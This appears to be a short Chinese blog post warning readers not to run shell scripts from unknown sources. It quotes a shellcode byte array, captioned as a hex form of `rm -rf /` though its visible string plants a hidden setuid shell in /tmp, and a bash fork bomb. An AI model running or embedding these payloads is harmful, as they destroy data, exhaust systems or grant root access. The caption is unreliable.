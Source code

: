 +++
title = "好奇殺死一隻貓"
date = "2013-10-29T02:12:00+08:00"
tags = ["geek"]
+++

除了不要亂點來路不明的連結外, 來路不明的 shell script 當然也不可以隨便執行哦!
```bash
char rmrf[] __attribute__ ((section(“.text”)))
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.cmd; chmod 4755
/tmp/.cmd;”;
```
***Warning:*** 這是 `rm –rf /` 的 hex 版本.

```bash
:(){ :|: & };:
```
***Warning:*** 定義一個會 fork 自己的 bash function, 然後 fork 他...
